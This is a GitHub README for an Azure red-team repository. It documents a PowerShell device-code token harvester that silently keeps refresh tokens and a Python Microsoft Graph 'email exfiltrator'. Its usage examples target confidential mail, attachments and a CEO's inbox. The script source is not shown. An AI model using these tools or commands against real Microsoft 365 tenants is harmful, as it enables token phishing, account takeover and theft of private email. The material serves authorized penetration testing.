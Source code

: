 # Azure
Azure Pentesting Resource


---

# Scripts

# token_polling.ps1

## Azure AD Device Code Authentication Token Harvester

A PowerShell script that demonstrates automated token acquisition using the Azure AD device code flow authentication. The script targets Microsoft's authentication endpoints to obtain access and refresh tokens that can be used for various Microsoft services (Graph API, Azure Resource Manager, etc.).

### Features
- Implements the complete OAuth 2.0 device code flow
- Automatically handles device code request and token polling
- Configurable resource endpoint targeting (Graph API, Azure RM, etc.)
- Built-in error handling and timeout management
- Retrieves both access and refresh tokens
- Uses the Azure PowerShell client ID for broad API access

### How it Works
1. Requests a device code from Azure AD's OAuth endpoint
2. Displays authentication URL and user code for sign-in
3. Continuously polls the token endpoint while waiting for user authentication
4. Upon successful authentication, retrieves and outputs the access token
5. Silently stores the refresh token for potential reuse

### Usage

```bash
pwsh
.\query.ps1
```

## Authentication Flow
1. When executed, the script will output something like:
```bash
Requesting device code...
Authentication URL: https://microsoft.com/devicelogin
User Code: ABCD-EFGH
Please visit the authentication URL, enter the code above, and sign in.
```
2. Visit the provided URL in your browser
3. Enter the displayed code
4. Sign in with your Microsoft account
5. The script will automatically detect the authentication and retrieve the token

#### Resource Targeting
The script defaults to Microsoft Graph API but can be modified to target other Microsoft API endpoints by changing the `$resource` variable:
- Microsoft Graph: `https://graph.microsoft.com`
- Azure Resource Manager: `https://management.azure.com/`
- Classic Azure Management: `https://management.core.windows.net/`

### Notes
- The script includes automatic retry logic for token polling
- Handles rate limiting automatically
- Includes timeout functionality
- Stores both access and refresh tokens
- Access token is output to console
- Refresh token is stored in variable but not displayed

### Error Handling
The script will gracefully handle common errors:
- Authentication timeout
- Rate limiting
- Invalid codes
- Network issues

---

# exfil_exchange_email.py

## Microsoft Graph Email Exfiltrator

A Python script that leverages Microsoft Graph API access tokens to retrieve and save emails from Exchange Online/Microsoft 365 mailboxes. The script provides flexible email extraction capabilities with advanced filtering options for precise targeting.

### Features
- Automated email content extraction using Microsoft Graph API
- Complete mailbox access with token authentication
- Saves email bodies, attachments, and metadata
- Organized directory structure for extracted data
- Advanced filtering capabilities:
  - Content-based search
  - Date ranges
  - Sender/recipient filtering
  - Importance levels
  - Attachment presence and types
  - Size-based filtering
  - Term exclusion
- Handles rate limiting and pagination
- Proper error handling and recovery

### Requirements
- Python 3.x
- Required packages:
  ```
  requests
  ```

### Installation
```bash
wget https://raw.githubusercontent.com/0xG00S3/Azure/refs/heads/main/exfil_exchange_email.py
```

### Usage

#### Basic Usage
Pull all emails from inbox:
```bash
python3 exfil_exchange_email.py --token "your_graph_api_token"
```

#### Advanced Filtering Examples

1. Search for sensitive documents:
```bash
python3 exfil_exchange_email.py --token "your_token" \
--query "confidential,secret,internal" \
--has-attachments \
--importance "high"
```

2. Target date ranges with specific attachment types:
```bash
python3 exfil_exchange_email.py --token "your_token" \
--start-date "2024-01-01" \
--end-date "2024-03-01" \
--attachment-types ".pdf,.docx" \
--min-size 1000000
```

3. Filter by sender and exclude terms:
```bash
python3 exfil_exchange_email.py --token "your_token" \
--from-address "ceo@company.com" \
--exclude-terms "newsletter,automated" \
--max-emails 100
```

#### Available Arguments
```bash
--token Required. Microsoft Graph API token
--output Output directory (default: exfiltrated_emails)
--query Search terms (comma-separated)
--max-emails Maximum number of emails to retrieve
--folder Mailbox folder to search (default: inbox)
--start-date Start date (YYYY-MM-DD)
--end-date End date (YYYY-MM-DD)
--from-address Filter by sender email
--to-address Filter by recipient email
--importance Filter by importance (high/normal/low)
--has-attachments Filter for emails with attachments
--attachment-types Attachment extensions to filter (e.g., .pdf,.docx)
--exclude-terms Terms to exclude (comma-separated)
--min-size Minimum email size in bytes
--max-size Maximum email size in bytes
```

#### Output Structure
```bash
exfiltrated_emails/
├── YYYYMMDD_HHMMSS_EmailSubject1/
│ ├── body.html
│ ├── metadata.json
│ └── attachments/
│ ├── document1.pdf
│ └── document2.docx
├── YYYYMMDD_HHMMSS_EmailSubject2/
│ ├── body.txt
│ └── metadata.json
```

#### Notes
- Requires a valid Microsoft Graph API token with Mail.Read permissions
- Rate limiting is handled automatically with exponential backoff
- Attachments are saved in their original format
- HTML emails preserve their formatting
- All metadata is saved in JSON format for easy parsing

#### Disclaimer
This tool is intended for authorized security testing and red team operations only. Ensure you have proper authorization before using this tool against any target systems.


---

Everything in this repository is to be used for educational purposes only.






















